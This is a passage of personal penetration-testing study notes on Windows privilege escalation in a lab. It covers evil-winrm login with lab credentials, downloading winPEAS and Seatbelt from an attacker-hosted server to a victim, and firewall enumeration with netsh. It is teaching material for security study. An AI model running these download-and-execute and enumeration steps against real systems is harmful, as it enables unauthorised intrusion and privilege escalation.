 > Starting a remote session via WinRM in a bind shell can cause issues (like no responses from commands)

##### Connect via [*evil-winrm*](Tools.md#evil-winrm)
```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


# Automated Enumeration

>Automated tools can be blocked by AV solutions. If this is the case, we can apply techniques learned in the Module "Antivirus Evasion", try other tools such as [Seatbelt](Tools.md#Seatbelt) and [JAWS](Tools.md#jaws) or do the enumeration manually.

### [winpeas](Tools.md#winPEAS)
`sudo apt update && sudo apt install peass`

- Start a python server in `/usr/share/peass/winpeas`
- Once connected to windows machine, connect to python server and download *winpeasx64.exe*
```powershell
PS C:\Users\dave> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winpeasx64.exe

.\winpeasex64.exe
```

![](winpeas.png)

> On the other hand, the tool incorrectly identified the target as Windows 10 and missed the meeting note, PowerShell history, and transcript file, which we used to elevate our privileges in the previous sections. However, because of the missing findings we should not abstain from using automated tools, but merely understand their limits.


Can also use [Seatbelt](Tools.md#Seatbelt).  Need to download [compiled binary](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) and host on python server for download to victim computer.

For everything, run `Seatbelt.exe -group=all`


# Removed

## Enumerate Firewall Status & Rules

Can be useful during privesc.  
- If a network service is not remotely accessible because it is blocked by the firewall, it is generally accessible locally via the loopback interface.  
- If we can interact with these services locally, we may be able to exploit them to escalate our privileges on the local system.  
- In addition, we can gather information about inbound and outbound port filtering during this phase to facilitate port forwarding and tunneling when it's time to pivot to an internal network.  

```powershell
C:\Users\student>netsh advfirewall show currentprofile  
  
Public Profile Settings:  
---------------------------------------------------------------  
State                          ON  
Firewall Policy                BlockInbound,AllowOutbound  
LocalFirewallRules             N/A (GPO-store only)  
LocalConSecRules               N/A (GPO-store only)  
InboundUserNotification        Enable  
RemoteManagement               Disable  
UnicastResponseToMulticast     Enable  
  
Logging:  
```